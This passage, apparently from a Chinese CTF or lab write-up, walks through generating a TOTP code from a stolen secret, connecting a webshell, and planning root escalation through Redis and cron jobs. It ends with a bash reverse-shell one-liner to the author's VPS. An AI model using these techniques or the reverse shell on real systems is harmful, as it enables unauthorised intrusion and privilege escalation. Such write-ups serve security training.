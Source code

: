 拿到secret后，因为是要google身份验证码

[google身份验证码的原理](https://zhuanlan.zhihu.com/p/132478048)

在github上开源的**[ GoogleAuthenticator](https://github.com/PHPGangsta/GoogleAuthenticator)**

读取`GoogleAuthenticator.php`,写个test.php,获取对应secret的身份验证码

```php
<?php
require_once 'GoogleAuthenticator.php';
$ga = new PHPGangsta_GoogleAuthenticator();
$secret = "IFBVIRS7MJSXI5DFOJPWC3TEL5RGK5DUMVZCCIJB";

$oneCode = $ga->getCode($secret); //服务端计算"一次性验证码"
echo "服务端计算的验证码是:".$oneCode."\n\n";

```

输入后，获取一个php路径

![image-20220417100949472](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171010979.png)

![image-20220417101017119](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171010494.png)

访问连接蚁剑

![image-20220417101255123](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171012217.png)

需要提权

只有先信息收集了

![image-20220417101351768](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171013854.png)

SUID提权不行，脏牛提权没有gcc不行

先看一下进程信息

![image-20220417102525498](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171027955.png)

有redis

redis 利用方式本质是写文件，一般使用下面三种方法

- 写Webshell
- 写SSH Key
- 写定时任务

此外还可以redis 加载`.so`模块从而命令执行，主从复制RCE，但是需要redis >= 4.0 ,当前环境的redis 版本是 3.2.12

写Webshell，写到Web目录下还是apache权限，写SSH Key 也没有 SSH 可以远程连接



有个redis和linux定时任务，redis-cli结合定时任务来反弹root权限的shell提权

先反弹shell到vps上

```
bash -i >& /dev/tcp/192.168.145.128/4444 0>&1 
```
